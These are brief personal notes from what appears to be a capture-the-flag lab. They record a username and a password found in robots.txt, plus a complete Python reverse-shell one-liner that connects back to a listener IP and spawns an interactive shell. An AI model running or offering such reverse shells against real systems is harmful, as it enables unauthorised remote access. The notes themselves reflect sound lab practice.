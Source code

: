 Username: R1ckRul3s

IP/robots.txt had password : Wubbalubbadubdub


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.172",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
Used John Hammonds walkthrough as well on youtube
